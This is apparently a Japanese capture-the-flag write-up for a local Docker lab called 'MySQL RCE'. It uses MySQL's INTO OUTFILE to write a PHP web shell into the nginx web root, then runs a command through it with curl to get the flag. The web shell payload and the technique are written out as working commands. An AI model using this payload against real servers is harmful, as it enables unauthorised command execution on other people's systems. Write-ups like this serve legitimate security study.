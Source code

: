 # MySQL RCE

## 環境構築

```
$ docker build -t mysql-web .
$ docker run -d -p 127.0.0.1:3306:3306 -p 127.0.0.1:80:80 mysql-web:latest
```

## Exploit

index.phpでphpinfo()を表示しているので`/usr/share/nginx/html`にphpファイルを置けばいいと分かる。

```
$ mysql -u root -h 127.0.0.1
mysql> select '<?php system($_GET["cmd"]);?>' into OUTFILE '/usr/share/nginx/html/shell.php';
Query OK, 1 row affected (0.00 sec)
```

http://localhost/shell.php?cmd=run_it.sh にアクセス!!

```
$ curl http://localhost/shell.php?cmd=run_it.sh
flag{w3bsh3ll_1s_us3ful}
```